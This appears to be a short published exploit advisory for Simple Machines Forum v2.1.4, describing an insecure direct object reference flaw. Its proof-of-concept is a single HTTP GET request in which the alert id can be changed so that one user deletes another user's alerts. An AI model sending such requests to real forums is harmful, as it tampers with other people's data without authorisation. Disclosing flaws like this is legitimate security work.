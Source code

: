 # Exploit Title: SMF v2.1.4 - Insecure Direct Object Reference(IDOR)
## Date: 25/7/2024
## Vendor Homepage: https://github.com/SimpleMachines/SMF
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SimpleMachines
## Version: v2.1.4
## Exploit Description:
## SMF v2.1.4 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to delete other user's alerts (horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /index.php?action=profile;u=2;area=showalerts;do=remove;aid=4(CHANGE HERE);f05dbf50a54f=9fc74e4234f40571a49c23b1a0799b19 HTTP/1.1
Host: localhost:8410
...
Connection: keep-alive

```
